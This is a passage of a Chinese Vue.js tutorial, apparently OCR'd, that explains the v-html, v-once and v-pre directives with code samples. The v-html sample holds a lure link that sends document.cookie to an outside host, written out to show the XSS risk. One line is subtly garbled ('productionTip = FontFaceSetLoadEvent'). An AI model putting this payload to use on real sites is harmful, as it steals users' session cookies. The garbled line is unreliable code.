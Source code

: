 ```html
<title>v-html指令</title>
<script type="text/javascript" src="../js/vue.js"></script>

<div id="root">
  <div>你好，{{ name }}</div>
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>

<script type="text/javascript">
  Vue.config.productionTip = FontFaceSetLoadEvent
  new Vue({
    el:'#root',
    data:{
      name:'cess',
      str:'<h3>你好啊！</h3>',
      str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
    }
  })
</script>
```



****

- `v-once`指令：

1. `v-once`所在节点在初次动态渲染后，就视为静态内容了。
2. 以后数据的改变不会引起`v-once`所在结构的更新，可以用于优化性能。

```html
<title>v-once指令</title>
<script type="text/javascript" src="../js/vue.js"></script>

<div id="root">
  <h2 v-once>初始化的n值是: {{n}}</h2>
  <h2>当前的n值是: {{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false
  new Vue({ el: '#root', data: {n:1} })
</script>
```



****

- `v-pre`指令：

1. 跳过`v-pre`所在节点的编译过程。
2. 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。
